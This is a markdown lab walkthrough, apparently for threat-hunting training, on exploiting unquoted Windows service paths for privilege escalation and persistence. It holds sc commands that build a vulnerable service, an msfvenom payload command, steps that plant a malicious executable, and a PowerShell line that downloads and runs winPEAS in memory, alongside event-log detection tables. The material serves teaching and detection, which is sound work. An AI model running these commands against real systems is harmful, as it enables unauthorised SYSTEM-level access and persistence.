






# UNQUOTED SERVICE PATH

<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

# SUMMARY

Adversaries may execute their own malicious payloads by hijacking vulnerable file path references. Adversaries can take advantage of paths that lack surrounding quotations by placing an executable in a higher level directory within the path, so that Windows will choose the adversary's executable to launch.

Service paths and shortcut paths may also be vulnerable to path interception if the path has one or more spaces and is not surrounded by quotation marks (e.g., C:\unsafe path with space\program.exe vs. "C:\safe path with space\program.exe"). [2] (stored in Windows Registry keys) An adversary can place an executable in a higher level directory of the path, and Windows will resolve that executable instead of the intended executable. For example, if the path in a shortcut is C:\program files\myapp.exe, an adversary may create a program at C:\program.exe that will be run instead of the intended program.

This technique can be used for persistence if executables are called on a regular basis, as well as privilege escalation if intercepted executables are started by a higher privileged process.

# MITRE


- AlwaysInstallElevated (MSI)
  
- Unquoted Service Path (Services)
  - Requires missing "quotes"
  - and whitespaces in the path
  - write permission in the (sub)folder that holds the service binary

To exploit, the exe needs to be named after the directory it's in, i.e:

---  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

- Create folders "C:\MyPrograms\Vulnerable Service\"
- create pingservice in vs2019
- copy pingservice as "VulnService.exe" to this path

```powershell
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc config VulnService obj= ".\Threatadmin" password= "Threathunt25"
sc qc VulnService
sc start VulnService
```

When there are spaces in a service path, windows will try to find the service as follows:

It will parse "C:\MyPrograms\Vulnerable Service\service.exe" into

- Potential service : "C:\MyPrograms\vulnerable.exe"
- with arguments `Service\service.exe`

By placing a malicious service exe in `"C:\MyPrograms\"` named `vulnerable.exe`, we'll escalate privileges to NT SYSTEM AUHTORITY (if the service is running with those privileges)

# CREATING A CUSTOM SERVICE

So one thing to remember is that services are not interactive with the user's destop - Why no MessageBox.Show() in a service?
The reason MessageBox.Show() won't work is fundamental to how Windows Services operate. They run in Session 0, which is an isolated session reserved for services and system processes. User sessions (where you see your desktop and applications) run in higher-numbered sessions (e.g., Session 1, Session 2, etc.). A service in Session 0 cannot directly interact with a user's desktop in another session.

> NOTE: DEFENDER is turned <r>***OFF***</r> for this PoC, as it will detect out-of-the-box payloads generated by MSFVenom (Metasploit), yes even a messagebox payload.

On Kali:

```bash
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE" -f exe-service -o Vulnerable.exe
```



Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms. You'll see the ***service will fail to start*** up and won't show a messagebox. I'f you'd create a metasploit meterpreter payload (which is not interactive with the user's desktop), it will actually work just find.

  https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md

So we have provided a custom C# service that shows code execution (in this it's just a ping to 1.1.1.1) we can easily modify this to do evil stuff, code-execution is code-execution! :)



> You can find the source code under `"C:\THEV\Labs\Privesc\EvilService"`. We have pre-compiled the code so just rename the EvilService.exe to `Vulnerable` and copy it to `"C:\MyPrograms\"`.

```powershell
cd C:\MyPrograms
cp C:\THEV\Labs\PrivEsc\EvilService\EvilService\bin\x64\Release\EvilService.exe C:\MyPrograms\Vulnerable.exe
ls
get-service VulnService
get-service VulnService | start-service
get-service VulnService
```



This is what it should look like:



Now let's start the service, you can do this from powershell (as shown in the schreenshot below), or using the services console on windows (below):




# VERIFY IF OUR SERVICE IS ACTUALLY RUNNING

Let's have a look at our eventlogs to confirm our new service did actually run:

| log | Event ID | Description |
|-|-|-|
| Sysmon | 1 | Process Creation |
| Windows Security | 4688 | Process Execution and Commandline |
| Windows Application | 0 | Custom log, our program writes with event ID 0 to this log|
--- 



---

Run the following tools as a regular unprivileged user (`runas /user:student powershell.exe`)

> - [+] SharpUp/Powerup
> - [+] WinPeas

### WINPEAS

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```


> Please note that regular users can't restart services, but after a reboot this will automatically execute.

You'll now have a 2nd beacon with `NT AUHORITY\SYSTEM` privileges.


> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `Code-Execution` and `Persistence`!!!